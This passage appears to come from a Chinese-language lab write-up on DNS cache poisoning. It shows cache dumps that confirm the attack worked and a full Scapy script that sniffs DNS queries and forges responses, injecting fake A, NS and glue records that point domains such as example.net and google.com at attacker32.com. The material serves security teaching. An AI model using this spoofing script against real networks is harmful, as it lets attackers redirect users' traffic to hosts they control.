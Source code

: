    观察到，攻击机比真实DNS服务器提前一步发送DNS响应，从而导致DNS缓存中毒。

   转储并查看DNS服务器缓存，如下：

   ```bash
   sudo rndc dumpdb -cache
   sudo cat /var/cache/bind/dump.db | grep -E "google|youtube|example|attack"
   ```

   ![](https://gitee.com/shandianchengzi/picture-bed/raw/master/img/20220419203830.png)

4. 停止攻击后，再次用dig进行域名查询，观察到返回的结果与上述结果一致：

   ![](https://gitee.com/shandianchengzi/picture-bed/raw/master/img/20220419203110.png)

   可以通过时间、TTL来判断，确实是攻击前后发的两次不同的查询。

DNS缓存中毒成功。

<div STYLE="page-break-after: always;"></div>

### scapy实施DNS缓存中毒攻击

针对授权域Authority Section和附加域Additional Section的攻击脚本：

该脚本既将授权域改成了attacker32.com，也将附加域修改了。

```bash
from scapy.all import *

def spoof_dns(pkt):
  #pkt.show()
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
    NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='attacker32.com')

    # The Additional Section
    Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='attacker32.cn', type='A', ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter='udp and dst port 53 and src host 10.10.10.2', prn=spoof_dns)
```
